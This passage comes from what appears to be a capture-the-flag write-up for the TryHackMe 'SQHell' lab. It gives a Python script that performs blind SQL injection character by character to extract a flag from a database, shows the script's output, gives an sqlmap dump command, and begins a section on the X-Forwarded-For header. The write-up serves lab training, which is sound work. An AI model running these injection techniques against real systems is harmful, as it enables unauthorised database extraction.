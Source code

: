 We can use this python script to authomate the process and find the flag.

```python
import requests
import string

server = "sqhell.thm" # IP OR SERVERNAME IF IN HOST FILE
flag = ""
loop = 1

while chr(125) not in flag:
    for a in range(48,126):
        req = requests.get("http://" + server + f"/register/user-check?username=admin' AND (ASCII(SUBSTR((SELECT flag FROM sqhell_3.flag),{loop},1))) = '{a}'-- -")
        if 'false' in req.text:
             flag += chr(a)
             loop += 1
             print("Finding Flag: ", flag, end="\r")
             break
print("Flag found: ", flag)
```

```bash
dking@dking ~/Downloads$ source /home/dking/myenv_python3_9/bin/activate
(myenv_python3_9) dking@dking ~/Downloads$ python script.py
Flag found:  THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308}8}
```

### USing SQLMAP

```bash
sqlmap -u http://sqhell.thm/register/user-check?username=admin --dbms=MySQL --dump
```

## Flag 2 - Blind / Time

Flag 2 has a hint on the room description, it says:

```
Make sure to read the terms and conditions ;)
```

Let’s see what we have:

![sqhell-t\&c](https://pencer.io/assets/images/2021-06-16-22-55-40.png)

It mentions logging the visitors IP. A search online found [this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) that explains the process:

{% code overflow="wrap" %}
```
The X-Forwarded-For (XFF) header is a de-facto standard header for identifying the originating IP address
of a client connecting to a web server through an HTTP proxy or a load balancer.
```
{% endcode %}
